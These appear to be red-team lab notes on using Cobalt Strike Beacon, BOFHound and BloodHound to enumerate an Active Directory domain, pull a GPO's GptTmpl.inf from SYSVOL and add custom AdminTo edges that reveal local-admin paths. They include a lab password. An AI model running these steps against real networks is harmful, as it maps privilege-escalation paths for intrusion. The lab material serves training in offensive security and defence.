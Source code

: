 - Use LDAP to enumerate the domain, users, groups, OUs, and GPOs.
    
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```
    
-  Copy the raw Beacon logs to the Attacker Desktop.
    
    1. From the Windows Terminal, open a tab for Ubuntu.
        
    2. cd /mnt/c/Users/Attacker/Desktop
        
    3. scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .
        
        > The password is Passw0rd!.
        
-  Parse the logs with BOFHound
    
    1. bofhound -i logs

- Start Bloodhound CE and ingest data
- Using the following cypher query, search for GPOs in BloodHound:

```Cypher
Match (n:GPO) return n
```

- Select the 'Workstation Admins' GPO.
    1. Take note of its Gpcpath.
    2. Expand its 'Affected Objects' and select 'Computers'.

-  Select each computer and note their Obiect ID.

- Return to Beacon
- Using the gpcpath for the Workstations Admins GPO, download its **GptTmpl.inf** file using Beacon.

![[Pasted image 20250714094204.png]]

```powershell
ls \\contoso.enclave\SysVol\contoso.enclave\Policies\{034D0B5C-FB95-45D9-AB23-AFE530815043}\Machine\Microsoft\Windows NT\SecEdit\

download \\contoso.enclave\SysVol\contoso.enclave\Policies\{034D0B5C-FB95-45D9-AB23-AFE530815043}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

- Sync the file to your Attacker Desktop.
    
    > View > Downloads.
    
-  Open the file in Notepad (or VSCode).
    
    1. Note the SID of the domain group.

![[Pasted image 20250714100312.png]]

> S-1-5-21-3926355307-1661546229-813047887-1106 is a member of S-1-5-32-544

```powershell
ldapsearch (objectSid=S-1-5-21-2958544638-1589230383-838459903-1605)
```

-  Add the custom edges in BloodHound.

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-2958544638-1589230383-838459903-3105'}) MATCH (y:Group{objectid:'S-1-5-21-2958544638-1589230383-838459903-3103'}) MERGE (y)-[:AdminTo]->(x)
```

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-2958544638-1589230383-838459903-2601'})
MATCH (y:Group{objectid:'S-1-5-21-2958544638-1589230383-838459903-1605'})
MERGE (y)-[:AdminTo]->(x)
```

> BloodHound will now show that rsteel has local administrative privileges on WKSTN-1 and 2.